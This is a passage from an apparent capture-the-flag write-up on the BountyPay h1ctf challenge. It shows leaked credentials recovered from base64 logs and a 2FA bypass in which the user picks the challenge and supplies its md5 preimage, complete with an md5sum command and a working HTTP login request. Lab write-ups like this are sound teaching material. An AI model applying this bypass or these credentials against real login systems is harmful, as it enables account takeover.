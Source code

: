 The lines seem to contain a timestamp and base64 encoded data. The decoded data contains a password:

```
{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}
```

The credentials `brian.oliver:V7h0inzX` are still valid: When trying to login with them, I did not get the error message `Invalid username / password combination` anymore, but instead I got redirected to a 2FA page.

### 2. Bypassing 2FA on app.bountypay.h1ctf.com => access to user account

The 2FA page shows detailed information about the structure of the 2FA password (parameter `challenge_response`):

{F858471}

The 2FA authentication can be easily bypassed because the challenge can be chosen by the user and equals `md5sum(challenge_answer)`.

Therefore, I simply generated a valid pair of challenge - challenge answer as follows:

```
$ echo -n AAAAAAAAAA | md5sum
16c52c6e8326c071da771e66dc6e9e57  -
```

The following request bypasses the 2FA check for the user `brian.oliver` and completes the login process:

```
POST / HTTP/1.1
Host: app.bountypay.h1ctf.com
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 110

username=brian.oliver&password=V7h0inzX&challenge_answer=AAAAAAAAAA&challenge=16c52c6e8326c071da771e66dc6e9e57
```

### 3. URL injection via cookie value on app.bountypay.h1ctf.com => arbitrary API calls on api.bountypay.h1ctf.com

When analyzing the requests made when using `app.bountypay.h1ctf.com` as user `brian.oliver`, I noticed that the cookie value is not encrypted but only base64 encoded.

A decoded cookie looks like follows:
